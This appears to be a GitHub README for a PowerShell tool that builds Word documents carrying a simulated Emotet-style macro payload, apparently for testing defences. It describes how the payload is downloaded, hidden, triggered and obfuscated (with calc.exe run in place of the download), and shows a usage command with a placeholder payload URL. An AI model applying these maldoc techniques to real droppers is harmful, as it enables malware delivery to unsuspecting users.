 # pseudotet
A PowerShell script used to create Word Documents containing an Emotet-like VBA/PowerShell payload.

The script performs the following steps:

1. Generates a PowerShell payload that calls out to a domain, saves the result to an .exe file and simulates execution of the downloaded file (`calc.exe` is run instead)
2. Encrypts the PowerShell payload using a randomly generated key
3. Creates a new Word Document, saving the encrypted PowerShell payload in the Document's "Comments" built-in property
4. Sets Custom Document Properties which, when re-assembled, contains the VBA `WScript.Run` command necessary to invoke PowerShell to decrypt and run the payload from steps 1 & 2
5. Generates a number of obfuscated auxillary functions to pad out the VBA

When the generated Document is open, the VBA `Sub AutoOpen` command is executed (provided macros are enabled, of course :)), which reassembles the command and decrypts and executes the PowerShell payload.

**NOTE:** the payload URL can be supplied or randomly generated. If the URL supplied/generated is valid, the response will be saved to a exe file in `C:\Temp, however this is overwritten with a copy of `calc.exe` before being run. 

## Usage

To use, import the module in PS and call the Generate-Pseudotet function, passing in the required args:

```
PS> Import-Module .\pseudotet.psm1
PS> Generate-Pseudotet -PayloadDownloadURL "https://www.foobar.com/payload" -Debug $true
```
